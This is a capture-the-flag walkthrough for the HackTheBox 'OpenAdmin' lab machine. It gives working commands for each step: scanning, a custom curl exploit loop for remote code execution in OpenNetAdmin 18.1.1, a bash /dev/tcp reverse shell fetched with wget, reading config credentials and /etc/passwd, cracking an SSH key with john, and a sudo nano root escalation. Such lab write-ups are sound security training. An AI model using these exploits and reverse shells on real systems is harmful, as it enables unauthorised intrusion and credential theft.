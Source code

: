 ```yaml
---
title: "HackTheBox: OpenAdmin | Walkthrough"
date: 2020-05-02
categories: [hackthebox]
tags: [opennetadmin, linux, hackthebox]
---
```


## Recon

As always, let's start with an nmap scan.

```sh
export ipaddress=10.10.10.171
ports=$(nmap -p- --min-rate=1000 -T4 $ipaddress | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -A -p$ports $ipaddress -o nmap
````

Output:

```
PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http    Apache httpd 2.4.29 ((Ubuntu))
12567/tcp closed unknown
62072/tcp closed unknown
```

Pretty simple, we see port 22 and 80 open. Fairly standard.
Now, let's see what it's hosting on the webserver.

We see the default Apache page. Let's try some content discovery:

```sh
dirsearch -u http://10.10.10.171/ -e /
```

Using `dirsearch`, we see quite a few paths but `/ona/` seems different and interesting. Let's check it out.

Looking at the page, we see that it is OpenNetAdmin.
The version in use is **18.1.1**. Let's see if it has any readily available exploit.

```sh
searchsploit opennetadmin
```

We see an RCE script for it. Let's copy it over.

```sh
cp /usr/share/exploitdb/exploits/php/webapps/47691.sh exploit.sh
```

For some reason, I was having issues with this script, so I copied the curl command and ran it directly. That worked. Then, I wrote a different script for it:

```bash
#!/bin/bash

URL=$1
while true; do
  read -p "$ " cmd
  curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Running the script:

```sh
bash exploit.sh http://10.10.10.171/ona/
```

We do get what seems like a shell, but every time we run a command, it uses curl to send the payload. I'd rather have a netcat reverse shell.

However, when you try a normal reverse shell:

```sh
nc 10.10.14.39 4444 -e /bin/bash
```

…it doesn’t work. The payload didn’t like the hyphen.

So, on my attacker machine, I wrote a bash reverse shell:

```sh
cat shell.sh
/bin/bash -i >& /dev/tcp/10.10.14.39/4444 0>&1
```

Then started a Python web server:

```sh
python -m http.server 80
```

On the victim machine:

```sh
wget http://10.10.14.39/shell.sh
bash shell.sh
```

And finally, a reverse shell. Nice.

Now, let's improve this shell:

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
```

Back in attacker machine:

```sh
stty raw -echo
fg
```

You might not see what you type, but run:

```sh
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <num>
```

*(This trick was taken from: [ropnop blog](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/))*

---

## User 1

Looking around in the webserver, in `/var/www/html/ona` we see a local directory.

```sh
ls -al local
ls -al local/config
```

Here, we see `database_settings.inc.php`:

```sh
cat database_settings.inc.php
```

We get:

```php
'db_login' => 'ona_sys',
'db_passwd' => 'n1nj4W4rri0R!',
```

Nice, we have a password. Let’s check users:

```sh
cat /etc/passwd
```

We see 2 users: **jimmy** and **joanna**.
Let’s try the password with jimmy:

```sh
su - jimmy
```

And nice, we are jimmy now.

---

## User 2

```sh
cd /var/www/
ls -al
```

The directory `internal` is owned by jimmy. Inside, we see `index.php`, `logout.php`, and `main.php`.

Checking `index.php`, we find a SHA512 hash for jimmy’s password:

```
00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1
```

Then, checking `main.php`:

```php
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
```

Wow — it serves Joanna’s private SSH key.
Let’s check if this site listens locally:

```sh
netstat -tupan | grep -i listen
```

We find port **52846** only on localhost. Let’s curl it:

```sh
curl http://127.0.0.1:52846/main.php
```

This reveals Joanna’s **encrypted RSA private key**.

Save it as `id_rsa`, then:

```sh
chmod 600 id_rsa
ssh joanna@10.10.10.171 -i id_rsa
```

It asks for a password. As expected. Let’s crack it.

Convert to john format:

```sh
ssh2john id_rsa > id_rsa.hash
john id_rsa.hash --wordlist=rockyou.txt
```

The password is cracked: **bloodninjas**.

Now login:

```sh
ssh joanna@10.10.10.171 -i id_rsa
```

Enter the password. You are in as Joanna.
Grab `user.txt` from her home directory.

---

## Root

Check sudo privileges:

```sh
sudo -l
```

We see:

```
(ALL) NOPASSWD: /bin/nano /opt/priv
```

From [GTFOBins](https://gtfobins.github.io/gtfobins/nano/), we can exploit nano:

```sh
sudo /bin/nano /opt/priv
```

Inside nano:
Press `Ctrl+R`, then `Ctrl+X` and enter:

```
reset; sh 1>&0 2>&0
```

Now you have a root shell:

```sh
whoami
# root
```

Congratulations, root!

